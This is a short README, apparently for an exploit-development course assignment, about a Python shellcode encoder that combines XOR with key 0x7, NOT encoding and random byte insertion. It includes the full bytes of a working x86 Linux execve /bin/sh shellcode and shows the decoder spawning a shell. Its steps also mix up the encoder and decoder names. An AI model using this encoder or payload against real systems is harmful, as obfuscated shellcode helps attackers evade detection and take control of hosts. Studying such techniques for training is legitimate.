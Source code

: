 # Assignment 4: Custom Encoder

Custom shellcode encoder which uses NOT encoding, XOR encryption and insertion.

To generate an encoded shellcode payload of your choice, first place the original shellcode into the `shellcode` variable of `custom_encoder.py`:

```python
#!/usr/bin/python3

# Python Custom Shellcode Encoder
# Shellcode is XOR encoded with a key of 0x7 and then NOT encoded
# Next, a random number between 1 and 100 is inserted to pad the shellcode

import random

shellcode = bytearray(b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")
...
```

Next, run `custom_decoder.py`:

```bash
python3 custom_decoder.py
[*] Custom decoder generated. Run ./custom_decoder to execute.
```

Finally, execute custom_encoder. The default payload decodes and runs a /bin/sh payload:

```bash
./custom_decoder
Shellcode Length:  93
#
```

---
